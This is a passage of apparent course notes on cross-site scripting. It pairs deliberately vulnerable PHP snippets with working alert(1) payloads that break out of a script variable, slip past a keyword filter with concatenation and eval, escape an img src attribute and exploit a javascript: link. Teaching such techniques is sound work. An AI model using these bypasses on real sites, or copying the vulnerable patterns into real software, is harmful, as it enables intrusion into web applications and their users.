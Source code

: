 ```html
        let id = <?=$id?>;
        let passwd = "<?=$passwd?>";
        ...
    </script>
</body>
</head>
```
What will happen if we place `?id=1;/*&passwd=*/alert(1);//` as payload. It will comment let passwd part and will alert(1).
## No script and Alert keywords
If we have following code
```html
<head>
<title>CS492</title>
<body>
<?php
$name = $_GET['name'];
$name = preg_replace("/(script|object|alert|prompt)/i", "", $name);
?>
...
<body>
<p> Your name is <?=$name?>. Hello! Nice to meet you. </p>
...
```
We can make payload as `<img src=x onerror=' var c = "al" %2B "ert" %2B "(1)"; eval(c);'></img>`, which same as `<img src=x onerror=' var c = "al" + "ert" + "(1)"; eval(c);'></img>`
## Injecting Code in Image Tag Src
Suppose we have following code
```html
<head>
<title>Vulnerable</title>
<body>
<?php
$name = $_GET['name'];
?>
...
<body>
<p> Your image goes here
<img src="https://example.com/images/<?=$name?>" />
You are supposed to see a valid image.
</p>...
```
Here we can make payload as `x" onerror='alert(1)'`, which will run alert(1).
## Bypassing htmlspecialchars
Suppose we have following website
```html
<head>
<title>CS492</title>
<body>
<?php
$name = $_GET['name'];
// Convert "<a href='test'>Test</a>" into &lt;a href=&#039;test&#039;&gt;Test&lt;/a&gt;
$name = htmlspecialchar($name, ENT_QUOTES, "UTF-8");
?>
...
<body>
<p> Your link <a href = <?=$name?>> here is going to redirect you </p>...
```
We can here make a payload as `javascript:alert(1)`. If user presses that link it will trigger alert(1).
